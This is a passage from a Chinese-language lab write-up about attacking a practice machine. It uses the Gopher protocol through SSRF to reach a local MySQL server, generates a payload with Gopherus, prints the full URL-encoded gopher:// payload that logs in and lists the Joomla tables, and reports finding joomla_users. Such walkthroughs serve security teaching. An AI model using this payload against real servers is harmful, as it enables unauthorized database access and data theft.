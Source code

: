 <<<<<<< HEAD
[![](assets/1710898772-ef3f093e8915bae666cb44c39b4fcf88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172742-c700bd2a-e052-1.png)  
[![](assets/1710898772-6b12d1cf7b81a50868d9556763fd46df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172752-cd0b79c6-e052-1.png)

在之前的打靶过程中我们发现 Joomla 是可以管理数据库的，只是比较奇怪的是 nmap 并没有扫描出来 3306 端口，也许可能是靶机对其访问 IP 做了防护，导致只能以 127.0.0.1 连接，随后我们结合 Gopher 协议对本地的 MySQL 数据库发起攻击测试 (之前我们已经有了 mysql 的连接账户和密码)，在此之前我们要用一下 Gopherus 工具，生成用于攻击 MySQL 的攻击载荷，这里我们的数据库名称为 goblin，我们要执行的命令是使用 joomla 数据库并查看表名信息

```plain
Gopherus --exploit mysql
```

[![](assets/1710898772-423325e8bd05322e74dc4dc23bba13f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172940-0d4ad662-e053-1.png)  
随后测试载荷：

```plain
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%19%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%20%73%68%6f%77%20%74%61%62%6c%65%73%3b%01%00%00%00%01
```

[![](assets/1710898772-935b2de918094a2d53ee7e27d81b757d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173005-1c5b4812-e053-1.png)  
随后查看源代码发现 joomla\_users 这个表名  